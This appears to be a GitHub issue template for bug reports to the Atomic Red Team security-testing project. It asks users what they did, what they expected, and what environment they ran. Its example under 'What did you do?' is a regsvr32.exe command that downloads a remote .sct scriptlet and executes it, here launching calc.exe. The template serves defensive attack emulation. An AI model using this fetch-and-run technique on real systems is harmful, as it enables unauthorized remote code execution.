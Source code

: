 # Report

## What did you do?

ℹ Please replace this with what you did.
e.g. Run `regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll`

## What did you expect to happen?

ℹ Please replace this with what you expected to happen.
e.g. The atomic test executes and `calc.exe` is launched.

## What happened instead?

ℹ Please replace this with of what happened instead.
e.g. 💥

## Your Environment

* Which *specific* operating system are you running (e.g. Windows 7 SP1 32-bit)?
* Did you run the test from an elevated or root prompt?
* If relevant, which atomic test is this specific to?
* If relevant, which [execution harness](2) are you attempting to use?

[1]: https://github.com/redcanaryco/atomic-red-team/tree/master/atomics "atomic tests"
[2]: https://github.com/redcanaryco/atomic-red-team/tree/master/execution-frameworks "execution frameworks"